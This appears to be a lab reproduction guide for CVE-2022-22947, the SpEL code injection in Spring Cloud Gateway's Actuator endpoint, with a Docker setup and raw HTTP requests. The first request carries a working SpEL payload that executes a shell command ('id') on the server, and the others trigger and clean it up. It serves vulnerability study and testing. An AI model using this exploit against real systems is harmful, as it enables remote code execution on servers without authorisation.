



Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)¶
Spring Cloud Gateway provides a library for building an API Gateway on top of Spring WebFlux.
Applications using Spring Cloud Gateway in the version prior to 3.1.0 and 3.0.6, are vulnerable to a code injection attack when the Gateway Actuator endpoint is enabled, exposed and unsecured. A remote attacker could make a maliciously crafted request that could allow arbitrary remote execution on the remote host.
References:
- https://tanzu.vmware.com/security/cve-2022-22947
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/
Vulnerability Environment¶
Execute the following command to start a server that uses Spring Cloud Gateway 3.1.0:
docker compose up -d
After server is started, browse the http://your-ip:8080 to see an example page.
Vulnerability Reproduce¶
Firstly, send the following request to add a router which contains an evil SpEL expression:
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329
{
"id": "hacktest",
"filters": [{
"name": "AddResponseHeader",
"args": {
"name": "Result",
"value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
}
}],
"uri": "http://example.com"
}

Secondly, refresh the gateway. The SpEL expression will be executed in this step:
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

Thirdly, send the following request to retrieve the result:
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

Afterward, send a DELETE request to remove our evil router:
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close

Finally, refresh the gateway again:
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0